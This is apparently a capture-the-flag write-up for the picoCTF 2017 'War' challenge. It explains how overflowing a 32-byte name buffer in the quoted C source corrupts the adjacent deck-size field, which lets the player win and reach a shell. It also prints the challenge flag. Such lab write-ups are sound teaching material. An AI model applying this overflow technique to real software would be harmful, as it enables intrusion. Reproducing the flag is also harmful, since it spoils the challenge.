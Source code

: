 <H1>War</H1>
<B>Win a simple Card Game. Source. Connect on shell2017.picoctf.com:4415.</B>

>Hints:
>
>Bugs typically happen in groups. If you find one, what does it allow you to do?

Connecting to the address and port presents us with a card game. Simple enough, make a bet if you win, increase your winnings, if you lose, lose the amount of your bet.

However, playing the game is another matter. After a couple of tries it appears the game is rigged against us: we always run out of cards before the opponent (assuming we haven't run out of money first).

So lets see if we can learn something from the source code. 

```c
...

#define NAMEBUFFLEN 32						            // (1)
#define BETBUFFLEN 8

...

typedef struct _gameState{
  int playerMoney;
  player ctfer;
  char name[NAMEBUFFLEN]; 					            // (2)
  size_t deckSize;							            // (3)
  player opponent;
} gameState;

gameState gameData;

...

int main(int argc, char**argv){
    char betStr[BETBUFFLEN];
    card * oppCard;
    card * playCard;
    memset(&gameData, 0, sizeof(gameData));
    gameData.playerMoney = 100;
    int bet;

    buildDecks(&gameData.ctfer, &gameData.opponent);   // (4)
    srand(time(NULL));//Not intended to be cryptographically strong

    ...
    
    memset(gameData.name,0,NAMEBUFFLEN);               // (5)
    if(!readInput(gameData.name,NAMEBUFFLEN)){
        printf("Read error. Exiting.\n");
        exit(-1);
    }
```
    
So it turns out this program does no input checking at all, this includes boundary checks as well. We know that:
 
 - (1), (2) - - - our name can be a maximum of 32 characters
 - (3) - - - the deck size variable follows right after the name variable
 - (4), (5) - - - that our card deck is created before setting our name

With this information we can overflow the name buffer and manipulate our deck to give us better odds at defeating our opponent. Lets go with 32 * 'a'. 

```bash
nc shell2017.picoctf.com 4415
Welcome to the WAR card game simulator. Work in progress...
Cards don't exchange hands after each round, but you should be able to win without that,right?
Please enter your name: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
From here we just keep betting 1 until we start winning (if we reach 0, we just need to try again to get a better memory address to manipulate).

Eventually when we win, we will be given a shell. There we will find a flag.txt file.

```bash
cat flag.txt
```

We have our flag:

```
45912e79bbc247b344f6d0248fa3dc7f
```